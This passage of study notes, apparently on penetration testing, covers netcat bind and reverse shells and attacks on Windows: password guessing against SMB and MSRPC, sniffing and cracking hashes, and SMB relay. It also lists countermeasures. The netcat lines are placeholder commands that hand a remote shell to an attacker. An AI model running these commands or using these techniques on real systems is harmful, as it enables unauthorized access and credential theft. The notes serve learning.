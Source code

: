 #### Practical

- Shells
  - Tool: `netcat`
  - Methods
  	- Bind shell: attacker connects to the victim
  		1. Victim machine: fire up a listener `nc -nlvp <listening-port> -e /bin/sh`
  		2. Attacker machine: connect to the victim `nc <victim-ip> <attacker-machine-listening-port>`
  	- Reverse shell: victim connect to the attacker
  		1. Attacker machine: fire up a listener `nc -nvlp <listening-port>`
  		2. Victim machine: launch reverse shell `nc <attacker-machine> <attacker-machine-listening-port> -e /bin/sh`
- Binary exploitation and exploit writing
  - https://dev.to/hextrace/use-pwntools-for-your-exploits-40m3
  - https://tc.gts3.org/cs6265/2019/tut/tut01-warmup1.html

### Hacking windows

- Attack types
  - Unauthenticated attack: use remote network exploits
    - Authentication spoofing: brute-force/dictionary password guessing and man-in-the-middle
      - Remote password guessing
        - Targets
          - Server Message Block (SMB)
          - Microsoft Remote Procedure Call (MSRPC)
          - Terminal services
          - SQL
          - SharePoint and web services
          - ...
        - Notes
          - Account may lock out after too many guesses
        - Tools
          - `THC Hydra`
          - `Medusa`
          - ...
        - Countermeasures: applied through local security policy menu
          - Use a firewall (local or dedicated)
          - Use strong passwords
          - Set a lockout threshold
          - Enable audit account logging 
          - Do not use default ports
          - Use IDS/IPS
      - Eavesdropping on network password exchange
        - Tools
          - Cain and LCP (windows) 
            - LAN manager (LM) passwords are very likely affected but very old
            - Kerberos sniffing: used a preauth packet which contained a timestamp encrypted with a key derived from the user's password
              - Cracking
          - Wireshark (linux)
            - Intercept clear-text passwords or crackable hashes
          - John the ripper and hashcat
            - Crack intercepted hashes
        - Countermeasures
          - Use NTLM than LM
          - Use strong passwords
          - Encrypt traffic
      - Man-in-the-middle attack: the attacker is between the victim and the server
        - SMBrelay and SMBproxy attacks: pass authentication hashes to get authenticated access to the server
          - Credential reflection: act as the server and pwn the client machine (maybe)
          - Credential forwarding: access the server with credentials received by the client
        - Tools
          - Wireshark